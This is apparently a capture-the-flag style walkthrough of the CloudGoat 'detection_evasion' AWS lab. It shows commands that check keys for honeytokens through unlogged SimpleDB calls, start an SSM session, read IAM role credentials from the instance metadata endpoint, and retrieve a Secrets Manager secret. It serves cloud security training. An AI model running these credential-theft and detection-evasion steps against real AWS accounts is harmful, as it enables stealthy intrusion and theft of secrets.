 # Detection Evasion

This scenario is significantly different from the CloudGoat scenarios that have come before in how it plays. In detection_evasion, your goals will be outlined for you more clearly, and the challenge is to complete them without triggering alarms. There is more setup involved in this scenario, and it will take longer to play (you might want/need to play it multiple times).

After deployment is complete, you will need to wait about an hour before playing the scenario. This is, unfortunately, necessary for the cloudwatch alerts to fully integrate with cloudtrails logs. It should also be kept in mind that there can be a significant delay in alerts for actions that you take (10-15 minutes is not uncommon). So check your email periodically to see if you have triggered an alert.

Goal: The goal of this scenario is to read out the values for both secrets without being detected. The secrets are both stored in Secrets Manager, and their values have the following format (cg-secret-XXXXXX-XXXXXX).

# Walkthrough

## Login 
```
aws configure --profile user1
aws configure --profile user2
aws configure --profile user3
aws configure --profile user4
```

## Check for honeytokens
By listing domains, these don't get logged in cloudtrail
```
aws --profile user1 sdb list-domains
Returned that it is from canarytokens.com@@kz9r8ouqnhve4zs1yi4bzspzz -> Canary token domain

aws --profile user2 sdb list-domains
From SpaceCrab/l_salander (permission denied)

aws --profile user3 sdb list-domains
From cd1fceca-e751-4c1b-83e4-78d309063830 (permission denied)

aws --profile user4 sdb list-domains 
No problem with this user
```

## Enumerate Ec2 instances and connect
```
aws ec2 describe-instances --profile user4 | grep detection
Found instance i-0fc9c955ce8c225f7 

aws ssm start-session --target i-0fc9c955ce8c225f7 --profile user4
!! Refer to the following to install ssm on mac: https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html
```

## Retrieve IMDS credentials -> Alarms
```
curl http://169.254.169.254/latest/meta-data/iam/security-credentials
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/detection_evasion_cgidp5vc3m9ykf_easy
```

## Option 1: Easy path 
```
sudo yum install awscli 

aws secretsmanager list-secrets --region us-east-1
Found secret id detection_evasion_cgidp5vc3m9ykf_easy_secret

aws secretsmanager get-secret-value --secret-id detection_evasion_cgidp5vc3m9ykf_easy_secret --region us-east-1
Found secret cg-secret-889877-2823411
```


# References

https://github.com/RhinoSecurityLabs/cloudgoat/blob/master/scenarios/detection_evasion/README.md